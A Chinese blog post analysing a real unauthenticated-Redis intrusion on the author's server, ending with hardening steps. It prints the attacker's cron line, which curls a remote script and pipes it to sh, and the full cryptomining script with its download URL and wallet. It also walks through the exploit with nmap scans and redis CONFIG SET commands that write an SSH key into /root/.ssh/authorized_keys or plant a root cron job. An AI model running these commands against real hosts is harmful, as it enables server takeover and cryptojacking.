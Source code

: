 ```yaml
---
layout:     post
title:      "Redis安全问题分析"
date:       2017-03-03 16:48:00 +0800
category:   "redis"
tags:       ["security", "redis"]
excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来背后仍然冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
---
```


## redis被侵入

最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来背后仍然冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：

````
\n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
````

### 计划任务检查

看到这个，很自然会想到crond的计划任务，`*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh`的意思是"每5分钟去下载并执行这个test脚本"。所以第一时间去检查系统计划任务，但是并没有发现什么，貌似这个计划任务并没有添加成功(因为机器上运行redis服务的是一个nologin的用户)。

`crontab -l`可以查看当前用户的所有计划任务，但是难免会有遗漏，或者通过其他用户添加，我们最好是查看下`/var/spool/cron/`目录下所有文件。crond的具体操作以及命令格式，可以看我之前的文章 -- [crond环境变量问题](/2016/12/16/crond-env-problems/) 。

### 脚本检查

计划任务没有发现什么问题，所以只好去看看入侵者想要下载和执行的脚本，或许能发现什么。下载完脚本，打开之后，内容如下(注释是本人添加)：

````
#!/bin/bash
# 查看系统中是否运行minerd这个挖矿软件
Jin=`ps -ef|grep minerd|grep -v grep|wc -l`
# 找到minerd进程的pid
Pid=`ps -ef|grep minerd|grep -v grep|awk '{print $2}'`
# 统计指向指定比特币账户的minerd进程数量
Qianbao=`ps -ef|grep minerd|grep -v grep|grep "44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN"|wc -l`
# 杀掉竞争对手AnXqV挖矿软件
ps auxf|grep -v grep|grep AnXqV |awk '{print $2}'|xargs kill -9

# 如果系统中运行有minerd
if [ $Jin -eq  1 ];then
    # 如果minerd不是指向自己账户，杀掉minerd进程，并且将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
    if [ $Qianbao -eq 0 ];then
        kill -9 $Pid
        cd /opt
        if [ ! -f minerd ];then
            curl -L http://sx.doiton.tk/minerd -o minerd \
            &&   chmod +x minerd
        fi
        /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
    fi
fi

# 如果系统中没运行minerd，直接将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
if  [ $Jin -ne  1 ];then
    kill -9 $Pid
    cd /opt
    if [ ! -f minerd ];then
        curl -L http://sx.doiton.tk/minerd -o minerd \
        &&   chmod +x minerd
    fi
    /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
 fi
````

分析完脚本之后，通过`ps aux | grep -v grep | grep [name]`查看下系统中是否运行有`minerd`或者`AnXqV`。很庆幸，系统中没有运行这两种挖矿软件，估计上一步`计划任务`没添加成功。

## 还原过程

侥幸逃过了一劫，庆幸之余来分析下入侵者的入侵过程。

### 利用原理

> redis的安全理念是，“不要将Redis暴露在公网中, 因为让不受信任的客户接触到Redis是非常危险的”。redis作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。[[1]](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)

当然，使用者将redis端口绑定在默认的`0.0.0.0:6379`，以具有某权限的用户运行，并且没有开启鉴权，也没采取相关防火墙策略，将不需认证的redis服务器暴露在公网，才是这类事件的罪魁祸首。

因为redis自身提供`config`命令，改命令本来是用来动态调整redis配置的，但是既然能写文件(也能修改配置文件地址)，那么自然可以用来进行一些其他的操作。

### 扫描端口

公网上有很多用户运行redis，其实都监听默认端口6379，并且没有开启auth鉴权。我们可以很轻松的扫描到这样的用户，然后实施入侵(并不建议这么做，已经是犯罪)：

````
# 安装nmap扫描器
$ sudo yum install nmap (红帽系或者SUSE) 或者 sudo apt-get install nmap (debian系)

# 扫描网络中活动主机(网段可以自己修改)
$ nmap -sn 192.168.2.0/24

# 扫描特定主机的开放端口(地址、地址段自己修改)
$ nmap 192.168.2.0,100-200

# 找到主机上监听端口的服务
$ nmap -sV 192.168.2.22

# 查看主机上端口的详细信息
$ nmap -sC 192.168.2.22 -p 6379

# 特定漏洞脚本利用(这个不是重点)
$ nmap --script=[path] 192.168.2.22 -p 6379
````

扫描到可利用的端口后，我们就可以进行下一步操作了。我们可以进行比较常见的操作：添加计划任务执行特定操作，或者将ssh公钥添加到主机方便以后利用。

### 添加ssh公钥

在主机redis中添加一个`crackit`的键值对

````
# 生成rsa密钥对(公钥和私钥)
$ ssh-keygen -t rsa
# 将公钥写入文件，私钥保留
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
# 将公钥写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
````

通过`config`命令，修改配置路径，将公钥写入主机`/root/.ssh/authorized_keys`。

````
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/root/.ssh"
    > config set dbfilename "authorized_keys"
    > save
````

公钥写入成功之后，我们便可以使用之前生成的私钥来访问对应的主机，后面的操作自己脑补。

### 添加计划任务

在主机redis中添加一个`crackit`的键值对

````
# 将计划任务命令写入文件
$ (echo -e "\n\n*/5 * * * * /usr/bin/curl -fsSL http://192.168.2.1/test.sh | sh\n\n") > test.txt
# 将计划任务内容写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
````

添加任务计划操作，其实和添加公钥差不多，只是将目录修改成`/var/spool/cron/`，系统中便自动添加了一个计划任务。

````
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/var/spool/cron/"
    > config set dbfilename "root"
    > save
````

添加计划任务成功以后，系统便会定时运行我们写好的脚本，具体能做什么取决于你的脚本内容。

## 影响和应对

影响：

- redis作为数据库，如果被入侵，导致数据泄露或者数据丢失，会给用户带来很大损失。
- 入侵者通过redis执行lua脚本，或者添加计划任务，或者添加ssh公钥，都可能使机器沦为肉鸡，被人使用。

应对措施：

1. 配置`/etc/redis.config`文件，修改bind选项，绑定特定IP地址(内网地址或者回环地址)可以限制部分IP访问。
2. 配置`/etc/redis.config`文件，修改port选项，修改默认监听6379端口，避免被人轻易扫描到。
3. 配置`/etc/redis.config`文件，修改requirepass选项，添加redis服务器鉴权，增强安全性。
4. 配置`/etc/redis.config`文件，修改rename-command选项，将危险命令重命名。
5. 创建单独的nologin系统用户，用来运行redis，避免被入侵后提权(执行代码或者命令)，千万不能以root运行redis服务。
6. 对主机添加ACL或者防火墙进行网络访问控制，云主机可以设置安全组。

最近除了redis被劫持，mongodb、mysql等数据被勒索的新闻也能经常听到，所以提高自身安全意识才是最根本的。
